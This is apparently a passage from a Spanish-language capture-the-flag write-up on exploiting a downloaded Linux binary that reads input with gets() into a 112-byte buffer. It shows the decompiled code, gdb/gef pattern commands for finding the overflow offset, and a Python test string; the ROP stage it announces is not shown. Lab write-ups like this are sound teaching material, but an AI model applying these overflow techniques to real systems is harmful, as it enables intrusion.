 Basicamente nos dice que podemos descargar un **Binario** de nombre **MyApp** desde la web, asi que si colocamos el nombre del binario en la aplicacion, vemos que se nos descarga.

-------
#### Buffer Overflow [x64] [ROP Attacks using PwnTools] [NX Bypass] [ASLR Bypass] 
##### Trying to hijack the argument to the system() function by loading our content in RDI [Way 1]  
El **Binario** de primeras no parece tener mayor función, si lanzamos un **string** sobre el archivo vemos que se trata de un binario compilado para Linux. Podemos proceder a analizar el binario con **Ghidra**

Vemos que en el **main** hay una llamada a nivel de sistema para ejecutar el comando **uptime**, posteriormente nos pide un input, input que tiene un tamaño de **buffer** definido ( 112 bytes ) y posteriormente obtiene el valor de nuestro input y lo mete en la variable:
```C
undefined8 main(void)

{
  char user_input [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(user_input);
  puts(user_input);
  return 0;
```

Bien, podemos proceder a crear una cadena con un total de 112 caracteres o más y los colocamos en el programa para ver si se desborda la memoria y observamos que si:
![[Pasted image 20230713201854.png]]

Si hacemos un **file** sobre el archivo, nos indica que el binario es de **x86/x64**, o sea que es de **64 bytes**. Usaremos **gdb** para correr el programa y hacer algunas pruebas en cuanto al desbordamiento de memoria:
```
# gdb myapp
```

Podemos crear un patron para identificar el total de caracteres necesarios para sobreescribir el registro ( esta caso es **$rsp** ):
```
gef> pattern create
```

Para indentificar la cadena necesaria:
```
gef> pattern offset $rsp
```

Ahora que conocemos el total de caracteres, podemos crear una cadena en **python** que contemple el total + otra cadena para vetificar si es correcto:
```
python3 -c 'print("A" * 120 + "B" * 8 + "C" * 8)'
```

